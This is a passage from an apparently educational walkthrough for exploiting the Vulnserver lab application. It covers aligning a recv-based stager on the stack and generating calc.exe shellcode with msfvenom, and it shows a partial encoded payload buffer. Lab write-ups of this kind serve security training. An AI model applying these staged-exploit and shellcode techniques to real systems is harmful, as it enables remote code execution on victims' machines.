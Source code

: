 <img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-stager-3.png">
</div>

Proceeding with step into, we can see that our arguments are loaded properly

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-stager-4.png">
</div>

As for now, we are able to call ```JMP.&WS2_32.recv``` along with the arguments aligned on stack perfectly

Its time to craft our second stager shellcode and use it for our exploit

## Crafting shellcode

Lets generate the shellcode to pop ```calc.exe``` using msfvenom,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$  msfvenom -p windows/exec CMD=calc.exe -b '\x00' -f python        
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
Final size of python file: 1078 bytes
buf =  b""
buf += b"\xbd\x2d\xad\x09\x5a\xd9\xc7\xd9\x74\x24\xf4\x5f\x31"
buf += b"\xc9\xb1\x31\x31\x6f\x13\x03\x6f\x13\x83\xc7\x29\x4f"
buf += b"\xfc\xa6\xd9\x0d\xff\x56\x19\x72\x89\xb2\x28\xb2\xed"
buf += b"\xb7\x1a\x02\x65\x95\x96\xe9\x2b\x0e\x2d\x9f\xe3\x21"
buf += b"\x86\x2a\xd2\x0c\x17\x06\x26\x0e\x9b\x55\x7b\xf0\xa2"
```